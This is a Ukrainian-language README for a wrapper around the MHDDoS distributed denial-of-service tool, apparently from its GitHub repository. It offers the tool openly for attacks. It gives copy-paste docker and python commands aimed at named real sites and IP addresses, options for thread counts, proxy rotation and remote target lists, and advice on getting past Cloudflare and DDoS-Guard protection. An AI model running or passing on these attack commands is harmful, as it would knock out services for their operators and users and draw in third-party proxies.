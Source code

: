Скрипт-обгортка для запуску потужного DDoS інструмента [MHDDoS](https://github.com/MHProDev/MHDDoS).

- **Не потребує VPN** - скачує і підбирає робочі проксі для атаки (доступний режим `--vpn` за бажанням)
- Атака **декількох цілей** з автоматичним балансуванням навантаження
- Використовує **різноманітні методи для атаки**

### Неофіційний гайд - [Детальний розбір MHDDoS_proxy](https://github.com/SlavaUkraineSince1991/DDoS-for-all/blob/main/MHDDoS_proxy.md)

### ⏱ Останні оновлення

- **29.03.2022** Додано підтримку локального файлу конфігурації (дуже дякую, @kobzar-darmogray).
- **28.03.2022** Додано табличний вивід `--table` (дуже дякую, @alexneo2003).

<details>
  <summary>📜 Раніше</summary>

- **27.03.2022**
    - Дозволено запуск методів DBG, BOMB (дякую @drew-kun за PR) та KILLER для відповідності оригінальному MHDDoS.
- **26.03.2022**
    - Запуск усіх обраних атак, замість випадкового вибору
    - Зменшено використання RAM на великій кількості цілей - тепер на RAM впливає тільки параметр `-t`
    - Додане кешування DNS і корректна обробка проблем з резолвінгом
- **25.03.2022** Додано режим VPN замість проксі (прапорець `--vpn`)
- **25.03.2022** MHDDoS включено до складу репозиторію для більшого контролю над розробкою і захистом від неочікуваних
  змін
</details>

### 📀 Встановлення | Installation - [інструкції ТУТ](/docs/installation.md)

### 🕹 Запуск | Running (наведено різні варіанти цілей)

#### Docker

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Python (якщо не працює - просто python замість python3)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 🛠 Налаштування

**Усі параметри можна комбінувати**, можна вказувати і до і після переліку цілей

Змінити навантаження - `-t XXXX` - кількість потоків, за замовчуванням - CPU * 1000

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy -t 3000 https://ria.ru https://tass.ru

Щоб переглянути інформацію про хід атаки, додайте прапорець `--table` для таблиці, `--debug` для тексту

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --table https://ria.ru https://tass.ru

Цілі з віддаленого або локального файла конфігурації - `-c https://lookquizru.xyz/paste.txt`

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy -c https://lookquizru.xyz/paste.txt

Обрати метод(и) для HTTP(S) атаки (не рекомендовано до використання) - `--http-methods GET STRESS`  
**Цей параметр тільки в кінці** команди  
Повний список [див. тут](https://github.com/MHProDev/MHDDoS#features-and-methods).
<details>
<summary>🚨Попередження щодо деяких методів</summary>

Методи CFB та DGB не мають сенсу - успішні запити залежать не скільки від самої реалізації, скільки від "чистоти"
IP-адреси.  
Запит або успішний, незалежно від методу, або наявна реалізація 2-ох річної давнини не здатна обійти захист.  
Наразі не існує надійної open-source реалізації обходу захисту Cloudflare та DDoS-Guard.  
Еффективнішим буде пошук оригінальних серверів цілі або атака методами за замовчуванням.

Метод BOMB потребує значно більше RAM - зменшіть значення `-t`.  
Також потребує додаткових налаштувань при запуску через python - звертайтеся
до [документації MHDDoS](https://github.com/MHProDev/MHDDoS).

Метод KILLER може мати непередбачувані наслідки для вашої системи - використання на власний ризик.

</details>

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru https://tass.ru --http-methods CFB

### CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-p PERIOD]
                     [-c URL]
                     [--table]
                     [--debug]
                     [--rpc RPC] 
                     [--http-methods METHOD [METHOD ...]]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL to remote or path to local config file (list of targets in plain text)
      -t, --threads 2000     Total number of threads to run (default is CPU * 1000)
      -p, --period 900       How often to update the proxies (default is 900)
      --table                Print log as table
      --debug                Print log as text
      --vpn                  Disable proxies to use VPN
      --rpc 2000             How many requests to send on a single proxy connection (default is 2000)
      --proxy-timeout 5      How many seconds to wait for the proxy to make a connection (default is 5)
      --http-methods GET     List of HTTP(s) attack methods to use.
                             (default is GET, POST, STRESS, BOT, PPS)
                             Refer to MHDDoS docs for available options
                             (https://github.com/MHProDev/MHDDoS)
